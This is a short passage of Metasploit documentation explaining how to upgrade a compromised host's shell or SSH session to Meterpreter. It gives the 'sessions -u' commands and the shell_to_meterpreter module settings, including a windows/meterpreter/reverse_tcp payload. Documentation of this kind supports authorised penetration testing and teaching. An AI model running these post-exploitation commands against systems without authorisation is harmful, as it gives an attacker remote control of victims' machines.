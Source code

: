 ## Upgrading shells to Meterpreter

If you have an existing session, either Meterpreter, an SSH, or a basic command shell - you can open a new Meterpreter session with:

```
sessions -u 3
```

To upgrade the most recently opened session to Meterpreter using the `sessions` command:

```
sessions -u -1
```

Or run the `shell_to_meterpreter` module manually:

```
use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS
```

If you want to upgrade your shell with fine control over what payload, use the `PAYLOAD_OVERRIDE`, `PLATFORM_OVERRIDE`, and on windows, `PSH_ARCH_OVERRIDE`. All 3 options are required to set an override on windows, and the first two options are required on other platforms, unless you are not using an override.

```
use multi/manage/shell_to_meterpreter
set SESSION 1
set PAYLOAD_OVERRIDE windows/meterpreter/reverse_tcp
set PLATFORM_OVERRIDE windows
set PSH_ARCH_OVERRIDE x64
```
